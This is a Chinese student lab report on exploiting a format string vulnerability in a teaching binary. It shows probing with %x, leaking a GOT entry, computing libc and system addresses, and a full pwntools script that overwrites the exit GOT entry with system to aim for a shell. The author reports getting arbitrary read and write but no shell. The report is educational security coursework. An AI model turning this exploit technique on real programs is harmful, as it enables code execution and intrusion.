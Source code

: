 # 格式化字符串攻击
赵梓钧15300240008
## 实验内容
本地打开ida可以看到
![](https://i.imgur.com/ESZfhLV.png)
和通常我们看到的形式不同，printf的漏洞在于这个函数只有一个参数，所以我们可以这样尝试，输入aaaa%x%x%x%x
就会发现如图所示的情况
![](https://i.imgur.com/lhpUBHD.png)
同时注意到这个程序什么保护都没有打开，但是也没有自带的shellcode，老师的程序在我自己下载的虚拟机版本里面也拿不到shell，执行老师的程序，发现如图所示：
![](https://i.imgur.com/WHbpjEY.png)
现在一般不用c语言写脚本，老师函数的本意是内部调用这个函数然后可以在外部写入我们的shellcode，这样子可以执行shell命令，但是这个只限于本地调试，没什么实际意义，所以这道题我们只能实现读写任意地址。可以读写任意地址也就是可以getshell，但是这里不展示，我们采用python的pwntools作为开发工具，对于32位的系统pwntools有封装好的可以将原来表函数地址写城别的函数的地址，我们注意到这个printf函数，我们可先leak出来libc里的pritf函数以及此函数的printf函数这样子两者相减我们有：
$$func_addr-func_offset = libc_addr$$
所以我们得到了此程序的libc地址那么我们也就得到了这个程序的system函数的地址，此时我们可以将任意函数改写位system函数，然后我们将参数给成／bin／sh\0 就可以得到shell了，这里主要运用了这个格式化字符串漏洞的%n的写，由于函数给的buf空间较大，所以便于我们操作，多的不说直接上代码，以及运行结果
![](https://i.imgur.com/WSwWt3y.png)
```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
# vim:fenc=utf-8
#
# Copyright © 2018 zzj <hzshang15@gmail.com>
#
# Distributed under terms of the MIT license.

"""

"""
from pwn import *

context.log_level = 'debug'

elf = ELF('./fmt_str')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

#leak_printf_addr
exit_got = elf.got['exit']
print hex(exit_got)
payload = p32(exit_got)+'%4$s'
# print '*'.encode('hex')
io = process(argv = ['./fmt_str',payload])

io.recvuntil('Address of text ')
str1 = io.recv()[8:]
# print str1
# print str1.encode('hex')
# # io.interactive()
io.close()
exit_addr = u32(str1[5:9])
print 'exit_addr:= %x ' % exit_addr

#get_system_addr
system_offset = libc.symbols['system']
exit_offset = libc.symbols['exit']
#print hex(system_offset),hex(print_offset)

libc_addr = exit_addr-exit_offset
print 'libc_addr:= %x' % (libc_addr)
system_addr = system_offset + libc_addr
print "system_addr = %x" % (system_addr)

#printf->system
payload = fmtstr_payload(4, {exit_got:system_addr} )
payload1 = payload.replace('3c%7$hhn','259c%7$hhn')
io1 = process(argv = ['./fmt_str',payload1])
# # pause()
# io1.sendline('/bin/sh \0')
io1.interactive()

```
## 感想
这次就是这个实验报告的全部内容，虽然没有拿到shell但是实现了任意地址的读写，老师利用c语言编写只限于本地调试，这个程序本身还是存在的一些问题，这个程序只是用来当作教学的示例程序，也就是说，他只是一个演示程序，没有涉及循环，以及别的函数的调用，所以我们用python并不能够很好的得到shell权限，这也是情理之中的事情。


